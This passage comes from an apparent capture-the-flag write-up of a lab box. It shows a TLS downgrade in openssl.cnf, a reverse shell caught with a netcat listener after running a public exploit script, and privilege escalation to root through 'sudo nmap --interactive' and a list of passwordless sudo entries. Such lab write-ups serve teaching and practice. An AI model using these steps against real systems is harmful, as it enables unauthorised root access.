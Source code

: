 All best practice is to disable TLSv1.0 and all SSL versions, so my host isn’t allowing a connection to this box. I can change what my VM allows in `/etc/ssl/openssl.cnf`, finding the line for `MinProtocol` and changing it to `None`, like this:

```

[system_default_sect]
#MinProtocol = DEFAULT@SECLEVEL=2
MinProtocol = None
#CipherString = DEFAULT@SECLEVEL=2
CipherString = None

```

I’ll need to do it for the `CipherString` as well, or it will throw a different error. Once I have that, running `python 18650.py` results in a connection and a shell:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 56205
id
uid=100(asterisk) gid=101(asterisk)

```

### Privesc to root

#### nmap

The comments in the exploit script suggest using `sudo nmap` to get to root, and that does work. I’ll run `nmap` as root and then `![command]` to run a command, like `bash`:

```

sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
bash-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# cat /root/root.txt
f2b76a2d************************

```

#### chmod

`sudo -l` shows there are a ton of things asterisk can run without a password as root:

```

bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
```